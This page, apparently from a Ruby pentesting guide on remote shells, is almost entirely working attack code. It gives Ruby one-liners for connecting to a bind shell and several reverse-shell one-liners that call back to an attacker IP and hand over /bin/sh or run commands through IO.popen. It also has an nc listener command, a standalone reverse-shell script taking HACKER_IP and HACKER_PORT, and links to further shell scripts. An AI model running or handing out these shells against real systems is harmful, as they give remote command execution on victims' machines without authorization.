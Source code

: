 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line\(shell\).

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell

from terminal

```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop{gets.chomp!;$_=="exit"?(s.close;exit):(s.puts$_);puts s.recv 0xFFFF}'
```

since `192.168.0.15` is the victim IP

## Reverse shell

Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run

```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`

```ruby
ruby -rsocket -e'exit if fork;c=TCPSocket.new("192.168.0.13",4444);loop{c.gets.chomp!;($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

if you don't want to rely on `cmd.exe`

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

## Bind and Reverse shell

This is an awesome implementation for a standalone [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by \[Hood3dRob1n\]\[3\] on GitHub . The bind shell requires authentication while reverse is not.

\[3\]: [https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)

